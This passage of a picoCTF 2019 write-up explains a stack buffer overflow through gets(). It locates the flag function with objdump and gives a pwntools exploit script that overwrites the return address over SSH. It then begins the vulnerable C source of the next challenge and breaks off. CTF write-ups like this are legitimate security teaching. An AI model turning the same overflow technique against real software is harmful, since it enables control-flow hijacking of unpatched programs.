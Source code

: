```c
```

Here we see that `main` calls the function `vuln` that uses `gets` so it's vulnerable to a buffer overflow, and then it's using `get_return_address`, we can overflow the `buf` variable and then send the `flag` address and get the flag:

We can use `objdump` to get the address:

```bash
objdump -d vuln | grep flag
080485e6 <flag>:
 8048618:       75 1c                   jne    8048636 <flag+0x50>
```

And the exploit:

```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("cd /problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389 && ./vuln")

payload = b"a"*76
payload += p32(0x080485e6)

p.recvuntil(": ")
p.sendline(payload)
p.interactive()
```

### NewOverFlow-1

Source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){
```